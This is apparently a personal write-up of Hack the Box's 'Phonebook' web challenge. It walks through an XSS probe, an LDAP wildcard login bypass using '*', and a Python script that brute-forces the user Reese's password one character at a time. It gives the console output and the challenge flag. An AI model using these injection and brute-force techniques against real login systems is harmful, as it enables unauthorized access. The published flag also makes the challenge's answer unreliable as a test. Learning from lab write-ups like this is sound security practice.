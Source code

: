 # Writeup "Phonebook"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                 </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/phonebook              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-phonebook-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/__                                                 </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                         </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-09-02                                                   </td></tr>
   <tr><td><b> enddate    </b></td><td> __                                                   </td></tr>
</table>

## Description

> Who is lucky enough to be included in the phonebook?

## Solution

The specified URL displays a login screen including a message by someone called "Reese": 

<p align="center">
   <img src="includes/phonebook-01.png" />
</p>

When we try to open the directory containing the included image, we discover a second page with a search field. The search field sends a POST request to the `/search` endpoint but we always receive a `403 Forbidden` response.

<p align="center">
   <img src="includes/phonebook-02.png" />
</p>

When we login, the website sends a POST request to the `/login` endpoint. Since we don't know the correct credentials, we are redirected to the original page with the additional parameter `message=Authentication failed`. This message is then displayed on the login page:

<p align="center">
   <img src="includes/phonebook-03.png" />
</p>

This means that there is a _cross site scripting_ (_"XSS"_) vulnerability on this page. Since the payload is inserted intow the website using the `innerHTML` attribute, we cannot use a `<script>` tag. But we can use the following code to trigger the XSS without user interaction:

``` html
<img src="" onerror=alert(window.origin) />
```

<p align="center">
   <img src="includes/phonebook-04.png" />
</p>

After some testing however, this does not seem to help us so we look for a different approach. After reading several comments in the official discussion thread, we decide to try an injection attack in the login fields. Exploits for SQL or PHP like `Reese' #` or `Reese'; //` do not work; according to some comments, the technology behind the login seems to be LDAP. But LDAP injection strings like `Reese)(&)` only lead to a `500 Internal Server Error` response. At least, this seems to confirm that LDAP is used.

Since at this point we are stuck, we do a web search for writeups of the challenge[^1][^2]. This leads us to a frustratingly easy solution for this first step: Just use "`*`" for both username and password. This leads us to the same search page we discovered earlier, but this time we are authenticated and we can use the search function.

We are now able to search through the user database; however, this does not reveal any hints regarding the flag. Turning back to the writeups, we learn that the solution is to find the password of the user `Reese` through a bruteforce attack. This is made possible by the fact that we can use the wildcard character "`*`" for any part of the password. Therefore, we can guess one letter at a time. Flags at HTB always have the same pattern, so we try to log in using "`HTB{*}`" as password, which is successful. Using the following _Python_ script, we can iterate through all possible passwords:

``` python
import requests
import string

challenge_url = "http://139.59.174.34:31321"
login_endpoint = "/login"

def testPassword(password: str) -> bool:
   password = "HTB{" + password + "}"
   payload = {'username': 'reese', 'password': password}

   response = requests.post(url=challenge_url+login_endpoint, data=payload)
   url = response.url

   return (url.find("failed") < 0)

def main():
   chars = string.ascii_letters + string.digits + "_?!"
   password = ""
   char_index = 0
   
   while char_index < len(chars):
      if testPassword(password + chars[char_index] + "*"):
         password += chars[char_index]
         char_index = 0
         print("Scanning for password... Result so far:", password)
      else:
         char_index += 1
   
   print("Flag found!")

if __name__ == '__main__':
   main()
```

This results in the following console output:

``` bash
$ python3 exploit.py
Scanning... d
Scanning... d1
Scanning... d1r
Scanning... d1re
Scanning... d1rec
Scanning... d1rect
Scanning... d1recto
Scanning... d1rector
Scanning... d1rectory
Scanning... d1rectory_
Scanning... d1rectory_h
Scanning... d1rectory_h4
Scanning... d1rectory_h4x
Scanning... d1rectory_h4xx
Scanning... d1rectory_h4xx0
Scanning... d1rectory_h4xx0r
Scanning... d1rectory_h4xx0r_
Scanning... d1rectory_h4xx0r_i
Scanning... d1rectory_h4xx0r_is
Scanning... d1rectory_h4xx0r_is_
Scanning... d1rectory_h4xx0r_is_k
Scanning... d1rectory_h4xx0r_is_k0
Scanning... d1rectory_h4xx0r_is_k00
Scanning... d1rectory_h4xx0r_is_k00l
Flag found!
```

Therefore, the flag is:

```
HTB{d1rectory_h4xx0r_is_k00l}
```

### Sources

[^1]: https://skelter.hashnode.dev/htb-phonebook-writeup
[^2]: https://shakuganz.com/2021/07/04/hackthebox-phonebook-write-up/
[^3]: 
